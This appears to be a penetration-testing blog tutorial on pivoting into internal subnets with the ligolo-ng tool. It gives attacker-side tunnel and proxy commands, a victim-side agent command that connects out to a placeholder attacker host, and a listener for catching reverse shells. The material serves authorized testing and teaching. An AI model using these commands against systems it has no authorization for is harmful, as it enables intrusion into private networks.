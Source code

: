 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` .  It is also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is much faster than a SOCKS proxy, mimicking a VPN.

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```shell
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```shell
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```shell
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```shell
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


